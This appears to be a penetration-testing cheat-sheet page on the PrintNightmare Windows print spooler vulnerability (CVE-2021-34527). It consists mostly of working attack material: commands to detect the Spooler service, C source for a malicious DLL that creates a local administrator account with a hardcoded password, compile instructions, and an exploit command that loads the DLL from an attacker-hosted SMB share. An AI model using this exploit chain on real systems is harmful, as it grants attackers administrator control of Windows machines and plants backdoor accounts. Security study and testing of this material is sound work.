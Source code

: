 # PrintNightMare - CVE-2021-34527

{% embed url="https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html" %}

### Is Spooler active ?

```bash
# with cme
nxc smb $target_ip -M spooler

# with impacket
rpcdump.py @$target_ip | egrep 'MS-RPRN|MS-PAR'
```

### Prepare the exploit

> Here is the DLL we will use, it creates an user and add it as local administrator :relaxed:

{% code title="nightmare.c" %}
```c
#include <windows.h> 

int RunCMD()
{
    system("net users pnightmare Passw0rd123. /add");
    system("net localgroup administrators pnightmare /add");
    return 0;
}

BOOL APIENTRY DllMain(HMODULE hModule,
    DWORD ul_reason_for_call,
    LPVOID lpReserved
)
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
        RunCMD();
        break;
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```
{% endcode %}

Compile it :&#x20;

```bash
x86_64-w64-mingw32-gcc -shared -o nightmare.dll nightmare.c
```

Exploit it :&#x20;

```bash
# clone the repo
git clone https://github.com/cube0x0/CVE-2021-1675 printnightmare

# prepare smb share with the nightmare.dll inside
smbserver.py -smb2support share .

# exploit
python3 CVE-2021-1675.py $domain/$user:$password@$hostnameanddomainname '\\192.168.56.1\share\nightmare.dll'

# verify
cme smb $target_ip -u pnightmare -p 'Passw0rd123.'
```
